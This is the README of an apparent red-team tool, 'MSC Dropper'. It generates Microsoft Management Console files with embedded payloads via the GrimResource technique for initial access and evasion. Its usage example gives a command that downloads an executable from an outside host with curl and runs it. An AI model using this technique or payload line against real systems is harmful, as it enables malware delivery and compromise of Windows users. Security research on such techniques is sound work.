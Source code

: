 # MSC Dropper Tool

MSC Dropper is a Python script designed to automate the creation of MSC (Microsoft Management Console) files with customizable payloads for arbitrary execution. This tool leverages a method discovered by Samir (@SBousseaden) from Elastic Security Labs, termed #GrimResource, which facilitates initial access and evasion through `mmc.exe`.

## Overview

The script allows users to generate MSC files that can execute arbitrary commands or scripts within the Microsoft Management Console environment. This capability is particularly useful for security research and testing environments.

## Features

- **Automated MSC File Generation**: Create MSC files with specified commands or scripts embedded.
- **Payload Customization**: Customize the payload to execute any command or script that `mmc.exe` can invoke.
- **Command-Line Interface**: Simple command-line interface for quick generation of MSC files.

## Installation

1. Clone the repository:

   ```bash
   git clone https://github.com/your-username/msc-dropper.git
   ```

2. Navigate into the directory:

   ```bash
   cd msc-dropper
   ```

3. Install dependencies (if any):

   ```bash
   # No dependencies needed for this script
   ```

## Usage

### Generating an MSC File

To generate an MSC file with a specific command or script:

```bash
python msc_dropper.py template1.msc out.msc "cmd /c curl -O http://wslab.de/tools/messagebox.exe && messagebox.exe"
```

Replace `"cmd /c curl -O http://wslab.de/tools/messagebox.exe && messagebox.exe"` with the command or script you want to execute. Ensure that the command is formatted correctly to work within the Windows environment and `mmc.exe`.

### Customizing Payloads

You can customize the payload directly within the `template1.msc` file or modify the script to automate more complex payload generation.

## Contributing

Contributions are welcome! Please fork the repository and submit pull requests.

## Credits

- Samir (@SBousseaden) from Elastic Security Labs for discovering the initial access and evasion method involving `mmc.exe`.

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.
